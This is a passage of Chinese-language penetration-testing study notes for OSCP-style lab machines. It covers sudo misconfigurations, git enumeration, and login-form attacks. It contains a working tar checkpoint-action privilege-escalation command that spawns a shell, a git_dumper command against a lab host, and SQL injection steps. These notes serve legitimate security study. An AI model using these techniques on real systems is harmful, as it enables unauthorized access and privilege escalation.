 - 可能藏著密碼
- 可能要觀察封包
- 要在kali安裝執行環境(wine64、mono)
## sudo 出現非root的NOPASSWOR
>[!warning] 小節重點
記得要用`sudo -u onuma  `
- sudo -l
``` bash
www-data@TartarSauce:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```
- 要提權時，記得要加入`sudo -u onuma`
``` bash
sudo -u onuma  /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

## 當出現git的時候
>[!danger  ] 重點提醒
>除了提權之外，可以想想有沒有具有需要版本控制的程式(例如wordpress)，查看git的紀錄可能會有收穫。
- git列舉指令
```
git status
git log
```
- git查看修改紀錄指令
```
git show 612ff5783cc5dbd1e0e008523dba83374a84aaf1
```
- .git是一個資料夾，要進去看config檔案
### git_dumper
>[!warning ]
>透過前期列舉，可以發現有.git可以利用
```
/opt/git-dumper/git_dumper.py http://192.168.224.144/.git/ /home/kali/Desktop/OSCP_A/git
```
## 當利用某個服務進去後
>如果那個服務需要登入帳號密碼，請不要忘記在系統內找到密碼並登入看看，如果有兩個服務，請務必試試看找第二個密碼並登入看看。
## 當出現Login Form的時候
>[!danger  ] 重點提醒
>可能性有很多，包含弱密碼、SQL Injection、兔子坑等等手段。
### SQL Injection流程如下
1. 判斷SQL種類
2. 判斷SQL Injection的位置
	1. 丟`'`進去看看有沒有噴錯誤，有的話87%有SQL Injection。
	2. 網址也有可能有SQL Injection。
	3. 直接Google 軟體名稱，可能就會有POC跑出來。
3. 用Time Base SQL Injection測試
	1. 多利用PayloadAllTheThing裡面的東西丟
4. 判斷是RCE還是Data Leak
# 密碼管理相關
> 密碼列舉的聯想筆記
> OSCP教的方法，建立cred.txt  
```
```